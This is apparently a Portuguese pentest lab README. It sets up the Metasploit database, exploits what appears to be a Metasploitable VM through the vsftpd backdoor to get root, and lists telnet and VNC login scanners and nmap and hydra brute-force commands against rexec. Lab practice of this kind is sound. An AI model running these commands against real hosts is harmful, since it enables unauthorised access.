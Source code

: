 
# Conectando no Banco de Dados (Parte mais chata)

```bash
sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
```

## Dentro do MSFCONSOLE

```bash
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
```

---

## Criando Workspace desse Computador

![Criando Workspace](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

## Serviços

![Serviços](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)

## Informações de Host

![Informações de Host](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)

## Procurando Diretórios Escondidos

![Diretórios Escondidos](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

## Aprofundando

![Profundando](https://github.com/user-attachments/assets/6bbef33f-f8f6-4ff4-aed0-ec8f4a0920d0)
![Profundando 2](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)

---

## Depois de conseguir acesso como root usando o payload:

```bash
CTRL + Z
Y

sessions        # Ver sessões ativas
sessions -i 2   # Acessar a sessão 2
```

![Sessão](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)

---

## Dados de IPs

```text
Meu IP:     177.67.136.88
IP Kali:    172.24.49.254
IP Meta:    192.168.100.102
```

## PAYLOADs

```text
cmd/unix/interact               => vsft 3.2.4
auxiliary/scanner/telnet_login => Telnet porta 23
scanner/vnc/vnc_login          => VNC (usar depois com: vncviewer 192.168.100.102:5900 :password)
```

## Força Bruta com Nmap e Hydra

```bash
nmap -p 512 --script rexec-brute -v 192.168.100.102

# Depois:
hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt \
      -P /home/luan/Desktop/porta_512_logins/passwd_512.txt \
      -vV 192.168.100.102 rexec
```
